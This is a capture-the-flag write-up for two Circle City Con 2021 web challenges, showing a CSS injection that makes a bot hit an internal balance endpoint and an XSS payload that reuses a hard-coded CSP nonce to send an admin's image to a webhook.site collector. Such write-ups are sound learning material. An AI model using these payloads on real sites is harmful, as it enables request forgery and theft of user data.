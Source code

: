 # Circle City Con CTF 2021

I couldn't solve Puppet and Sticky Notes.

# Casino
## description
> Can you make $1000 off Casino#4970 on our Discord server? (say `$help` to view commands)

## solution
According to the description, we need to get $1000.
So the goal would be to make the balance of the account greater than 1000 in the /setBalance endpoint.
Since /setBalace is an internal endpoint, we need to direct the bot to it.
```

app.get('/set_balance', internal, async (req, res) => { 
  const user = req.query.user
  if (user === undefined || user.length > 64) {
    return res.status(400).json({ error: 'Invalid user string' })
  }

  const balance = parseInt(req.query.balance)
  if (isNaN(balance)) {
    return res.status(400).json({ error: 'Invalid balance' })
  }

  await setBalance(user, balance)
  return res.status(200).end()
})


```
This endpoint can be used with the GET method, so it does not require XSS.
Therefore, we can use the /badge endpoint, which allows us to enter arbitrary CSS, to send requests to /setBalance.　　

```
$badge * {
    background: url(http://172.16.0.10:3000/set_balance?user={account_name}&balance=1001)
}
```

After that ,send $flag
```
CCC{maybe_1_sh0uldv3d_us3d_P0ST_in5t3ad_of_G3T}
```

# imgfiltrate
## description
>Can you yoink an image from the admin page?
## solution
There is a flag.php file on the application server, and the contents show that if you have a secret_token, you can get a flag.
And the token is in the bot's possession. Therefore, the goal is to get the image by XSS.
If you look at index.php, you can see that name is output as echo, so XSS is possible.
Also, the CSP (nonce base) is set, but the nonce is hard-coated, so it can be bypassed.
Looking at the bot, the cookie is set against imgfiltrate.hub.
Therefore, you need to direct the bot to http://imgfiltrate.hub/?name=~~.
### XSS Payload
Draw the image to canvas, convert it to base64, and retrieve it.  
Replace payload with ~~.

```
<script nonce=70861e83ad7f1863b3020799df93e450>
    const a = document.createElement('canvas');
        document.body.append(a);
        a.setAttribute('id','canvas');
        var canvas = document.getElementById('canvas');
        var ctx = canvas.getContext('2d');
        var img = document.getElementById('flag');
        setTimeout(function(){
            ctx.drawImage(img,0,0,100,40);
            var dataURL = canvas.toDataURL('image/jpeg', 0.7);
            location = `http://webhook.site/7ab26888-4775-4acd-a827-adaed7076e5c?a=${dataURL}`;
       },2000)
    </script>

```
Then decode it to get the flags.
>space needs to be replaced with +.

```
CCC{c4nvas_b64}
```


